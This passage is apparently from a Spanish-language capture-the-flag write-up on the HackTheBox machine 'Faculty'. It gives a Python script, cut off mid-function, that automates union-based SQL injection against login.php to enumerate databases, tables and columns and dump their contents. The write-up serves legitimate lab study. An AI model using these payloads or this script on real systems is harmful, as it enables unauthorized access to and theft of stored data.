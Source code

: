 > Esta y más información lo encuentras en [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#exploiting-union-based)
{: .prompt-info}

El único problema era que teniamos que ir probando cada query en la página _login.php_ y es tedioso, por ello hice un script en `python` para automatizar gran proceso:

```python
import signal, sys, argparse, requests, subprocess, base64

# debugging
import pdb

# ctrl+C

def signal_handler():
    print("[-] Interruption"); sys.exit()

signal.signal(signal.SIGINT, signal_handler)

# global variables

target_url = 'http://faculty.htb'

# arguments

parser = argparse.ArgumentParser(description='SQL Inyection')
parser.add_argument('-d', '--database', type=str, required=False, help='Select database')
parser.add_argument('-t', '--table', type=str, required=False, help='Select table')
parser.add_argument('-c', '--column', type=str, required=False, help='Select column')
parser.add_argument('-q', '--query', type=str, required=False, help='One word query (g.e version())')

args = parser.parse_args()

# query modes

def get_databases():
    return """' union select 1,2,3,4,5,6,7,8,9,group_concat(0x7c, schema_name, 0x7c) from information_schema.schemata-- -"""

def get_tables(database):
    return """' union select 1,2,3,4,5,6,7,8,9,group_concat(0x7c, table_name, 0x7c) from information_schema.tables where table_schema = "{}"-- -""".format(database)

def get_columns(table):
    return """' union select 1,2,3,4,5,6,7,8,9,group_concat(0x7c, column_name, 0x7c) from information_schema.columns where table_name = "{}"-- -""".format(table)

def get_fields(column, table):
    return """' union select 1,2,3,4,5,6,7,8,9,group_concat(0x7c, {}, 0x7c) from {}-- -""".format(column, table)
 
def get_info(command):
    return """' union select 1,2,3,4,5,6,7,8,9,group_concat(0x7c, {}, 0x7c)-- -""".format(command)
    

# options

def options():
    try:
        if len(sys.argv) == 1:
            return get_databases()
        elif args.database and args.table and args.column:
            return get_fields(args.column, args.table)
```
